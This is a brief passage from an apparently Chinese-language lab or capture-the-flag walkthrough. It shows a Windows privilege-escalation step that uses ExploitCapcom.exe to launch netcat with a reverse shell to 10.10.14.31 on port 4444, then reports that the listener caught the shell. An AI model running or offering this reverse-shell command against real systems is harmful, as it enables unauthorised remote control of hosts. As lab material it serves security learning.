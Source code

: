 [![](assets/1701678304-edb86fd13848f87a92f50dc6ee66d54c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173850-445134fc-8f64-1.png)

## 上传nc反弹shell

接着上传nc。  
.\\ExploitCapcom.exe EXPLOIT "nc.exe 10.10.14.31 4444 -e cmd.exe"

[![](assets/1701678304-777ad96e4105ccd889ebb19585ca05ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173858-4997ccdc-8f64-1.png)

然后监听4444端口，成功反弹shell
